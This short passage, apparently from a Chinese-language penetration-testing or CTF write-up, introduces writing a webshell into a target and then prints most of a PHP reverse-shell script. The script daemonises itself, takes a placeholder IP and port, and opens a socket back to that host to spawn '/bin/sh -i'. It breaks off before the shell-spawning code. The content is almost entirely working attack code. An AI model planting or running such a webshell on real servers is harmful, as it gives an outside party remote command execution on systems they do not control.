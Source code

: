 往里面写入一个webshell
```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
```